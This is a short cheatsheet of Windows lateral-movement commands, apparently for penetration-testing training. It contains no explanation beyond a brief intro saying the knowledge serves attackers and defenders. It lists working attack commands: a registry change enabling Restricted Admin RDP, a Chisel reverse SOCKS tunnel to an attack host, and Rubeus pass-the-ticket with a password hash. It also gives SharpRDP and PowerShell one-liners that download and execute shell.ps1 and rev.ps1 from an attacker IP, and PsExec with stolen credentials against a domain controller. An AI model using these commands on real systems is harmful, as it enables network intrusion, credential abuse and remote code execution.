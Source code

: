 ## Windows Lateral Movement Introduction and Command Line cheatsheet.

> Lateral movement refers to the techniques we use to move through a network after gaining initial access. 
> By understanding lateral movement, attackers and defenders can better navigate and secure networks. 
> This knowledge allows defenders to implement more effective security measures and helps attackers identify and exploit weaknesses in network defenses, ultimately leading to a more robust and resilient security posture. 


### RDP Commands

- Open Remote Desktop Connection client (Windows)

	C:\> mstsc.exe 

- Open Remote Desktop Connection client in Restricted Admin mode 


	C:\> mstsc.exe /restrictedAdmin 

	

- Query, Disable, and Enable DisableRestrictedAdmin value in LSA settings. 

	
	C:\> reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin 
	
	C:\> reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin /d 0 /t REG_DWORD 
	
	C:\> reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin /d 1 /t REG_DWORD 
	

- Chisel Server & Client. 

	
	$ ./chisel server --reverse --port 9999
	
	C:\> chisel.exe client "ATTACK HOST":"PORT" R:socks
	

- Rubeus Pass the Ticket 

	PS C:\> .\Rubeus.exe createnetonly /program:powershell.exe /show 
	
	PS C:\> .\Rubeus.exe asktgt /user:"USER" /rc4:"HASH" /domain:targetdomain.local /ptt 
	

- Execute Powershell command on Windows Server using SharpRDP

	
	C:\> SharpRDP.exe computername=dc01 command="powershell.exe IEX(New-Object Net.WebClient).DownloadString('http://"ATTACK-IP:PORT"/shell.ps1')" username=inlanefreight\"USER" password="PASS"

	PS C:\> IEX(IWR -Uri 'http://"ATTACK IP:PORT"/rev.ps1' -OutFile C:\>rev.ps1 -UseBasicParsing);C:\>rev.ps1 
	

### SMB Commands


- Execute command on remote server using PsExec

	PS C:\> .\PsExec.exe \\DC01 -i -s -u INLANEFREIGHT\'USER' -p 'PASS' cmd
